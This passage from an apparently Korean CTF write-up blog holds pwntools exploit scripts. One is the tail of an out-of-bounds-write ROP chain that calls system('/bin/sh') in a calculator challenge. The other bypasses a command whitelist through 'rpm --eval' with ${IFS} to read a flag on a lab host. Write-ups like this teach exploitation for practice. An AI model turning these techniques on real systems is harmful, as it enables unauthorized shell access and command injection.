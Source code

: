 ```python
go(b'+14b&41414141&%x'%(system & 0xffffffff))
go(b'+14a&41414141&%x'%(binsh >> 32))
go(b'+149&41414141&%x'%(binsh & 0xffffffff))
go(b'+148&41414141&%x'%(prdi >> 32))
go(b'+147&41414141&%x'%(prdi & 0xffffffff))
go(b'+146&41414141&%x'%(prdi >> 32))
go(b'+145&41414141&%x'%((prdi & 0xffffffff) + 1))
p.interactive()
```

### 블로그 포스트 작성자의 추가적인 코멘트

OOB read/write를 이용한 문제입니다. 개인적인 경험으로는, 문제를 풀 때 출제자 입장에서 생각해보는게 중요한 것 같습니다. 만약 이런식으로 계산기 프로그램을 C 언어로 작성할 때 연산기호가 붙어있거나, 숫자가 없거나 하는 엣지 케이스들을 어떻게 처리할 것인지, 그리고 문제 바이너리는 어떻게 처리하는지 살펴보시면 바이너리를 볼 때 좀 더 쉽게 접근하실 수 있을것이라 생각합니다. 비슷한 문제로는 [pwnable.tw - calc](https://pwnable.tw/challenge/#3) 문제를 추천드립니다. 

---

## HSpace Satellite

**출제자 책정 난이도**: easy

0xee 1 명령을 통해 debug 모드를 활성화 후 
0xff {command} 명령을 사용하여 command를 실행할 수 있다
rpm 명령이 whitelist에 있으므로 rpm --eval 명령을 통해 cat ./flag를 실행시킬 수 있다.

```python
from pwn import *
import time

context.log_level = 'debug'

p = remote('10.10.1.1', 8000)

p.sendline(b'\xee 1')
time.sleep(0.1)

p.sendline(b'\xff rpm --eval="%(cat\${IFS}./flag)"')
time.sleep(0.1)

print(p.recvline())
```


### 블로그 포스트 작성자의 추가적인 코멘트

명령어를 실행시킬 수 있지만 특정 명령어들로 제한되어 이를 bypass 하는 문제입니다. 이 문제에서는 `rpm` 명령어를 실행시킬 수 있고 옵션에는 제한사항이 없는 것을 활용해 `--eval` 옵션으로 임의 코드를 실행할 수 있었습니다. 이와 같이 옵션을 이용해 임의 명령을 실행시킬 수 있는 명령어 리스트를 [GTFOBins](https://gtfobins.github.io/) 에서 확인할 수 있으니 참고하시면 좋을 것 같습니다. 

---

## HSpace Satellite2
